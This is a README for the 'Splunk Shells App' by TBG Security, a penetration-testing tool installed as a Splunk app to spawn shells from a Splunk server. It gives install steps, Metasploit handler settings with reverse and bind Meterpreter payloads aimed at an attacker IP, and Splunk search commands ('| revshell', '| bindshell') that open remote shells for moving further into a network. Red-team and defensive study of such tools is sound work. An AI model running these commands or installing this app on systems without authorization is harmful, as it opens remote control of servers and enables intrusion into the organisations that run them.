 Splunk Shells App
Version 1.2

TBG Security
Ryan Hays

This app is to help with penetration testing and Red Teaming within environments that have a Splunk deployment.

This app will allow the engineer to spawn a Reverse of Bind Shell from a Splunk server to allow the engineer to
interact with the server and expand influence within the environment.

# Install
Download the release from https://github.com/TBGSecurity/splunk_shells/archive/1.2.tar.gz

Navigate to the "Manage Apps" and click on "Install app from file"

![Alt text](appserver/static/splunk_apps.png?raw=true "Optional Title")

Click on "Choose File" and select the downloaded release archive.

![Alt text](appserver/static/splunk_install.png?raw=true "Optional Title")

Once it is installed you will have to restart Splunk

![Alt text](appserver/static/splunk_restart.png?raw=true "Optional Title")

For Splunk v6.5 ONLY
Once Splunk is restarted click on Permissions for the splunk_shells app. Ensure the last permission "Sharing for config file-only objects" has "all apps" selected.

![Alt text](appserver/static/splunk_permissions.png?raw=true "Optional Title")

# Usage
Using each of these shells can be done from the Search and Reporting app. Setup a handler first then execute one of the following searches:

## Setup Metasploit Handler

use multi/handler<br>

Pick one of the below

set payload python/meterpreter_reverse_tcp<br>
set payload python/meterpreter_bind_tcp<br>
set payload python/shell_reverse_tcp<br>
set payload python/shell_bind_tcp<br>

set LHOST <ATTACKER IP><br>
set LPORT <ATTCKER PORT><br>
exploit -j<br>

## Bind Shell

`| bindshell SHELLTYPE PORTNUMBER` 

SHELLTYPE - Specify std or msf<br>
std = Standard Shell<br>
msf = Meterpreter Shell<br>

PORTNUMBER - Specify the port you want the bind shell to listen on.
Defaults to 8888


## Reverse Shell

`| revshell SHELLTYPE ATTACKERIP ATTACKERPORT`

SHELLTYPE - Specify std or msf<br>
std = Standard Shell<br>
msf = Meterpreter Shell<br>

ATTACKERIP - Specify the IP that you want the shell to be sent back to. 

ATTACKERPORT - Specify the port you want the shell to be sent back to.
